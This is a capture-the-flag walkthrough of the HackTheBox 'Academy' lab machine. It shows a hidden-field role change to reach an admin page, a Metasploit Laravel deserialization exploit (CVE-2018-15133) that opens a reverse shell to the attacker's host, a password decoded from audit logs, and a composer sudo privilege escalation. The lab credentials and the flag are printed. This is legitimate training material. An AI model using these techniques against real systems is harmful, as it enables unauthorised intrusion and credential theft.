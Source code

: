```yaml
---
title: HackTheBox - Academy
date: 2021-03-03 19:44:17 +0100
categories: [Hackthebox walkthroughs, Linux, Easy]
tags: [htb-linux-easy, Laravel, metasploit, CVE-2018-15133, CVE-2017-16894, reverse-shell, plain text password, Linux logging passwords, composer, GTFOBins, writeup, oscp-prep]
image: https://amirr0r.github.io/assets/img/htb/machines/linux/easy/academy/Academy.png
---
```


## Foothold

### Nmap Scan (open Ports)

```bash
$ nmap -min-rate 5000 --max-retries 1 -sV -oA Academy 10.10.10.215
Nmap scan report for 10.10.10.215
Host is up (0.027s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Apache httpd (port 80)

![Port 80](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/academy/academy.png)

Once we go to [http://10.10.10.215](http://10.10.10.215), we can see two links:

- [http://10.10.10.215/login.php](http://10.10.10.215/login.php)
- [http://10.10.10.215/register.php](http://10.10.10.215/register.php)

If we check the source-code of the register page, we can notice there is an input which is **hidden**:

![Role id](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/academy/roleid.png)

If we set its value to 1, we can access to: [http://10.10.10.215/admin-page.php](http://10.10.10.215/admin-page.php)

Once we're logged in, we can see there is a sub-domain whcih is mentionned `dev-staging-01.academy.htb`:

![admin-page](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/academy/admin-page.png)

We add these domains into our `/etc/hosts`:

![/etc/hosts](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/academy/etc-hosts.png)

Then we access to the subdomain:

![subdomain](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/academy/subdomain.png)

It seems to be a **Laravel** backend:

![laravel](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/academy/laravel.png)

We can notice there are some sensible information like:

![APP_KEY](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/academy/APP_KEY.png)


Using **metasploit**, we can gain a reverse shell to web server:

![msf](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/academy/msf.png)

```bash
msf6 > use exploit/unix/http/laravel_token_unserialize_exec
[*] Using configured payload cmd/unix/reverse_perl
# Setting options
msf6 exploit(unix/http/laravel_token_unserialize_exec) > show options
...
   Name       Current Setting                               Required  Description
   ----       ---------------                               --------  -----------
   APP_KEY    dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=  no        The base64 encoded APP_KEY string from the .env file
   Proxies                                                  no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.10.215                                  yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80                                            yes       The target port (TCP)
   SSL        false                                         no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                                             yes       Path to target webapp
   VHOST      dev-staging-01.academy.htb                    no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.11      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
```

![reverse_shell](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/academy/reverse_shell.png)

## User1: `cry0l1t3`

In the `/home` directory, we can see there are a bunch of users. One one them has a `user.txt` file: 

![cry0l1t3](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/academy/cry0l1t3.png)

By doing some recursive research through files upon files we find this password: 

![password](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/academy/dev_password.png)

It appears that it's the password of **cry0l1t3** user.

```bash
cry0l1t3@academy:/home/cry0l1t3:~$ cat user.txt
064f918982d32d8040efb7c1b66a486
```

## User2: `mrb3n`

**cry0l1t3** is part of the **adm** group.

Via `find` we can list all files that are owned by this group:

`find / -group adm -exec ls -la {} \; 2>/dev/null`

Most of them are in `/var/log`.

After reading about [linux var log files](https://www.thegeekstuff.com/2011/08/linux-var-log-files/), I found this article "[Logging passwords on Linux](https://www.redsiege.com/blog/2019/05/logging-passwords-on-linux/)". Before continuing, I highly recommend that you read this article.

In `/var/log/audit/` directory, we can retrieve `mrb3n`'s password:

```bash
cry0l1t3@academy:/var/log/audit$ grep "data=" *  
audit.log.3:type=TTY msg=audit(1597199290.086:83): tty pid=2517 uid=1002 auid=0 ses=1 major=4 minor=1 comm="sh" data=7375206D7262336E0A
audit.log.3:type=TTY msg=audit(1597199293.906:84): tty pid=2520 uid=1002 auid=0 ses=1 major=4 minor=1 comm="su" data=6D7262336E5F41634064336D79210A
...
cry0l1t3@academy:/var/log/audit$ echo 7375206D7262336E0A | xxd -r -p
su mrb3n
cry0l1t3@academy:/var/log/audit$ echo 6D7262336E5F41634064336D79210A | xxd -r -p
mrb3n_Ac@d3my!
```

## Root

Now that we have access to `mrb3n` account, let's do some enumeration and see what we can do with `sudo`:

![mrb3n](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/academy/mrb3n.png)

`composer` is listed in [GTFOBins](https://gtfobins.github.io/gtfobins/composer/):

![gtfobins](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/academy/gtfobins.png)

To perform a privesc, we can exploit it and then become `root`:

![root](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/academy/root.png)

___

## Useful links

- [Linux var log files](https://www.thegeekstuff.com/2011/08/linux-var-log-files/)
- [Logging Passwords on Linux - `/var/log/audit/audit.log`](https://www.redsiege.com/blog/2019/05/logging-passwords-on-linux/)